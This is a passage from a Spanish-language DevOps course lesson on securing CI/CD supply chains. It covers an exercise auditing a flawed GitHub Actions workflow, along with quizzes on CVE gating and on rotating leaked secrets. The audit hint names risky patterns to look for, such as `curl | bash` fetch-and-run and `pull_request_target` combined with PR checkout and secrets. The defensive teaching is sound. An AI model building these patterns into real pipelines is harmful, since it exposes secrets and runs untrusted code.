Reusa el esqueleto de la 5.3: `name`, `on`, `permissions`, `jobs`. Cada gate es **un job más** en `jobs:` (o un step dentro de uno) —no reescribas todo, **añade**. Para los SHA: el test no verifica que el SHA sea el *real* de esa versión (no tiene red), solo que sea un **hash de 40 caracteres hex** y no un tag; usa los SHA de ejemplo de la sección 4 o cópialos de GitHub. Para `dependabot.yml`, mira el bloque de la sección 4.7: necesitas **dos** entradas bajo `updates:` (una `github-actions`, una `pip`). Si un assert falla, su mensaje te dice qué clave falta. Pista, no solución.
</Solucion>

</Reto>

<Reto title="Auditoría de supply chain: clasifica las fallas de un workflow real" timebox="40–45 min">

Te entrego un workflow (`workflow-a-auditar.yml`) que "funciona" pero está lleno de hoyos de cadena de suministro —el típico copiado de un tutorial. Tu trabajo es **auditarlo como lo haría un ingeniero de seguridad**, sin IA, a mano.

Produce `hallazgos.md` con, para **cada** problema que encuentres (hay al menos 6):

1. **Qué** es la falla (una línea concreta del YAML).
2. **Por qué** es peligrosa: qué podría hacer un atacante.
3. **Clasificación**: a qué gate/concepto pertenece (SAST / SCA / secret / pin / permisos / PPE) y, si puedes, la categoría **OWASP CICD-SEC** (p. ej. CICD-SEC-03 *Dependency Chain Abuse*, CICD-SEC-04 *Poisoned Pipeline Execution*).
4. **Severidad** (alta/media/baja) con una frase que la justifique.
5. **El arreglo** concreto.

Cierra con un párrafo: **¿qué es lo primero que arreglarías y por qué?** (prioriza por impacto, no por orden de aparición).

Entregable: `hallazgos.md`. No hay test automático: esto se corrige por la **calidad y completitud de tu razonamiento** con la rúbrica.

**Hecho significa:**
- [ ] Encontraste **al menos 6** fallas distintas (no 6 variantes de la misma).
- [ ] Cada una tiene los 5 campos (qué / por qué / clasificación / severidad / arreglo).
- [ ] Identificaste el **PPE** (`pull_request_target` + checkout del PR + secret) y lo nombraste como el de **mayor** severidad.
- [ ] Distingues un secreto en texto plano (filtración) de una action sin pinear (supply chain): no los mezclas.
- [ ] Tu priorización pesa **impacto real**, no orden de aparición en el archivo.

Enunciado completo y material: `ejercicios/fase-5/auditar-supply-chain/` (carpeta del repo).

<Solucion title="Pista (ábrela solo si superaste el timebox)">
Recorre el YAML **de arriba hacia abajo con una pregunta por línea**: ¿este evento expone secrets a forks? (`on:`) ¿qué permisos pide? (`permissions:`) ¿esta action está pineada a SHA o a un tag/rama? ¿de quién es la action —oficial o random? ¿hay algún valor que parezca un secreto literal? ¿se ejecuta código que viene del PR o de internet (`curl | bash`)? El hallazgo más grave casi siempre es el que combina **acceso a secrets** con **ejecución de código no confiable** —busca esa combinación. Para clasificar, recuerda que OWASP CICD-SEC tiene categorías para abuso de dependencias (03), ejecución envenenada (04) y permisos excesivos. Pista, no solución.
</Solucion>

</Reto>

## 8. Check de dominio

Sin mirar la lección, en voz alta o por escrito:

<CheckDominio
  items={[
    "Explicar la diferencia entre SAST, SCA y secret-scanning: qué mira cada uno y qué ataque previene.",
    "Explicar qué es un SBOM, en qué se diferencia de un escaneo de SCA, y por qué te salva el día del próximo Log4Shell.",
    "Explicar por qué pinear una action a @v4 NO te protege del tag hijacking y @<sha> sí (con el caso de Trivy como ejemplo).",
    "Nombrar las dos capas de secret-scanning (push protection nativo + gitleaks en CI) y por qué un secreto filtrado SIEMPRE hay que rotarlo.",
    "Explicar el trade-off entre pinear (inmutable) y estar al día (parches), y cómo Dependabot con groups + cooldown lo resuelve.",
    "Razonar por qué bloquear ante TODO CVE es contraproducente (fatiga de alertas) y cuál es el criterio (high/critical bloquea, el resto se triagea).",
    "Explicar qué es un Poisoned Pipeline Execution (PPE) y por qué pull_request_target + checkout del PR + secrets es la receta del desastre.",
    "Decir por qué un pipeline 'lint → test → build' en verde NO implica que sea seguro desplegarlo.",
  ]}
/>

Si marcaste menos de seis, vuelve a la sección correspondiente **antes** de avanzar. No es un examen: es honestidad contigo.

<Quiz
  question="Tu pipeline tiene un job de SCA con 'fail-on-severity: high'. Aparece un CVE de severidad 'low' en una dependencia que solo se usa en los tests. ¿Qué debería pasar?"
  options={[
    "El PR debe bloquearse: cualquier CVE es un riesgo y hay que pararlo todo",
    "El gate NO bloquea (es 'low' y bajo el umbral 'high'); el hallazgo se registra/triagea, pero no detiene el merge — bloquear ante todo CVE genera fatiga de alertas y entrena al equipo a ignorar el bot",
    "Hay que cambiar 'fail-on-severity' a 'low' permanentemente para no perder ningún CVE",
  ]}
  answer={1}
  explanation="Seguridad útil es seguridad priorizada. Un CVE 'low' en una dependencia de tests que nunca toca producción no justifica bloquear el merge. Si bloqueas ante todo, el equipo aprende a saltarse el gate (--force, aprobar a ciegas) y deja de mirar las alertas que SÍ importan: eso es fatiga de alertas, y empeora la seguridad. El criterio: bloquear en high/critical, triagear el resto. El gate debe ser respetado, y solo se respeta si grita por lo que de verdad importa."
/>

<Quiz
  question="Por accidente commiteaste y pusheaste un token de AWS. Lo notas, borras la línea y reescribes el historial con git rebase. ¿Estás a salvo?"
  options={[
    "Sí: al reescribir el historial el token desaparece del repo, así que ya no hay riesgo",
    "No: el token ya estuvo en el servidor (historial, reflogs, logs de CI, y si el repo es público probablemente ya lo copió un bot). La ÚNICA cura es ROTAR la credencial: revocarla y emitir una nueva",
    "Sí, siempre que el repo sea privado: en privados nadie puede haber visto el commit",
  ]}
  answer={1}
  explanation="Un secreto que llegó al servidor está comprometido, punto. Reescribir el historial no revoca nada: el valor ya vivió en los reflogs, los logs de CI y (en público) en los crawlers que escanean GitHub en segundos. Borrar el commit es cosmético; rotar la credencial es la única cura. Por eso la push protection —que bloquea ANTES de que el secreto entre— vale más que cualquier limpieza posterior. La prevención es la única defensa barata contra una fuga de secretos."
/>

## 9. Recursos (documentación oficial primero)

- **GitHub — Securing your supply chain (hub):** [docs.github.com/code-security/supply-chain-security](https://docs.github.com/en/code-security/supply-chain-security) — el punto de partida oficial de dependency graph, Dependabot, review action y SBOM.
- **Hardening de GitHub Actions (seguridad del pipeline):** [docs.github.com/.../security-hardening-for-github-actions](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions) — incluye por qué y cómo pinear actions a SHA y usar `permissions` mínimos.
- **CodeQL (SAST nativo):** [docs.github.com/.../code-scanning/.../about-code-scanning-with-codeql](https://docs.github.com/en/code-security/code-scanning/introduction-to-code-scanning/about-code-scanning-with-codeql) — default vs advanced setup.
- **Dependency review action:** [github.com/actions/dependency-review-action](https://github.com/actions/dependency-review-action) y la **Dependabot options reference** (incluye `groups` y `cooldown`): [docs.github.com/.../dependabot-options-reference](https://docs.github.com/en/code-security/reference/supply-chain-security/dependabot-options-reference).
- **Secret scanning + push protection:** [docs.github.com/.../about-secret-scanning](https://docs.github.com/en/code-security/secret-scanning/introduction/about-secret-scanning) · **gitleaks:** [github.com/gitleaks/gitleaks](https://github.com/gitleaks/gitleaks).
- **pip-audit (SCA Python):** [github.com/pypa/gh-action-pip-audit](https://github.com/pypa/gh-action-pip-audit) · **Trivy (SCA + SBOM):** [trivy.dev](https://trivy.dev/) y [github.com/aquasecurity/trivy-action](https://github.com/aquasecurity/trivy-action).
- **OWASP Top 10 CI/CD Security Risks:** [owasp.org/www-project-top-10-ci-cd-security-risks](https://owasp.org/www-project-top-10-ci-cd-security-risks/) — el marco para clasificar fallas de pipeline (el del ejercicio 2).
- **Estándares de SBOM:** [CycloneDX](https://cyclonedx.org/) (OWASP) y [SPDX](https://spdx.dev/) (Linux Foundation).

## 10. Conexión con el capstone de la fase

El **[Capstone F5 — Pipeline completo a producción](/fase-5-devops/proyecto/)** exige, en su *Definition of Done*, exactamente lo de esta lección: **"secret-scanning + dependency-scanning (SCA) en el pipeline"**. Esta sub-unidad es lo que cumple ese punto. En concreto, te deja listo para:

- Sumar al pipeline de la 5.3 los **jobs de SCA, secret-scan y SAST** y volverlos *required checks*, de modo que en el capstone **un PR con un CVE crítico o un secreto filtrado no se pueda mergear**.
- **Pinear a SHA** todas las actions del capstone y configurar **Dependabot** —para que el evaluador vea un pipeline que un equipo real confiaría, no un "YAML de tutorial".
- Generar el **SBOM** de tu artefacto como entregable de primera clase (auditable, demostrable).

Y mira hacia adelante: este mismo concepto de cadena de suministro reaparece, **amplificado**, en la [Fase 6 (AI Engineering)](/fase-6-ai-engineering/). El **OWASP LLM Top 10** tiene su propia categoría de *Supply Chain* (modelos, datasets y plugins comprometidos) y de *Unbounded Consumption*. Los gates que aprendiste a poner sobre dependencias y actions son la base mental para los gates que pondrás sobre **modelos y datos** cuando tu pipeline empiece a importar pesos de Hugging Face en vez de paquetes de PyPI. La idea es la misma; cambia lo que importas.

## 11. Reflexión y repaso espaciado

Cierra escribiendo dos o tres frases respondiendo: **antes de esta lección, ¿qué creías que significaba "mi pipeline está seguro"? ¿En qué cambió tu definición?** El salto mental que importa es dejar de pensar "seguro = mis tests pasan" y empezar a pensar "seguro = verifiqué explícitamente las cuatro superficies (mi código, mis deps, mis secretos, mi cadena de build)". Nombrar ese cambio es medir lo que aprendiste.

Gancho de **spaced repetition**:

- **Mañana:** dibuja **de memoria** (sin abrir esta página) la tabla SAST / SCA / SBOM / secret-scanning —para cada uno, qué mira y qué ataque previene. Si te falla uno, vuelve a la sección 4.1.
- **En 3 días:** explica en voz alta, a alguien (o a la cámara), por qué `@v4` no protegió a quienes usaban Trivy en marzo de 2026 y `@<sha>` sí. Si dudas, repasa la sección 4.2.
- **En 1 semana:** toma cualquier repo tuyo (este curso o tu trabajo) y añádele **un** gate real: un `dependabot.yml` con `groups` + `cooldown`, o un job de `pip-audit`. Luego pinea sus actions a SHA. Cronométralo: la segunda vez deberías tardar menos de 20 minutos.
